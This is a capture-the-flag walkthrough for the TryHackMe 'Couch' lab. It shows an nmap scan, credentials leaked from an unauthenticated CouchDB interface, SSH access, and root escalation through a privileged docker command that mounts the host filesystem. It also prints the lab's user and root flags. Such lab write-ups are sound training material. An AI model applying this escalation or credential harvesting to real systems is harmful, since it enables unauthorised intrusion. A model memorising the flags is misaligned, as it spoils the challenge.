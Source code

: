 # Room: Couch

## General Info
- **Room link:** [Couch](https://tryhackme.com/room/couch)

## Description

Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.

## Provided Files / Links
- [x] Target Machine IP (10.10.51.179)


## Enumeration / Recon
- Ports Enumeration

Basic port enumeration:
`nmap -A -p- 10.10.183.192 -T5`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Android 5.1 (93%), Linux 3.13 (93%), Linux 3.2 - 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I then found a username:password in `http://10.10.183.192:5984/_utils/document.html?secret/a1320dd69fb4570d0a3d26df4e000be7`: **atena:t4qfzcc4qN##**.

I was able to login through ssh.

I then found a user.txt file in /home/atena: **THM{1ns3cure_couchdb}**.

I viewed the .bash_history file and found this: `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine` => when running this command, you can have root privileges through docker and the host entire filesystem is mounted on /mnt.

After executing the command, I am root and I find the root flag in /mnt/root/root.txt: **THM{RCE_us1ng_Docker_API}**.


